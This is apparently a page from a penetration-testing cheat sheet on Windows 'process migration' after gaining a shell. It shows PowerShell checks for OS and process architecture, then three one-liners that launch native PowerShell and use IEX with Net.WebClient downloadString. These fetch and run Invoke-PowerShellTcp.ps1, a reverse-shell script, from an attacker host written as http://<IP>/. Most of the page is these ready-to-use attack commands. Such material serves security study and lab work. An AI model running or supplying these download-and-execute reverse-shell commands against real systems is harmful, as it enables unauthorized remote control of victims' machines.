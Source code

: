 # Process migration

Sometimes, we can access the machine with a certain architecture (x86 or x64) but our shell is running under a process that does not correspond to the machine's architecture. This can cause false positives in the vulnerability enumeration, so it is recommended to migrate to a process with the same system architecture. We have Metasploit that does it automatically but we can do it manually.

{% tabs %}
{% tab title="PowerShell" %}
### Verification

```powershell
# Is the operating system on an x64 architecture? 
systeminfo
[Environment]::Is64BitOperatingSystem # True/False
# Is the current process x64?
[Environment]::Is64BitProcess # True/False
# (optional) Is it the current x64 process? 
(Get-Process -Id $PID).StartInfo.EnvironmentVariables["PROCESSOR_ARCHITECTURE"]; # x86/AMD64
```

### Method

If the system architecture does not match the current process architecture, or vice versa, then we must perform a process migration, calling the system's native PowerShell.

```powershell
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<IP>/Invoke-PowerShellTcp.ps1')
start /b C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<IP>/Invoke-PowerShellTcp.ps1')
start /b C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<IP>/Invoke-PowerShellTcp.ps1')
```
{% endtab %}
{% endtabs %}

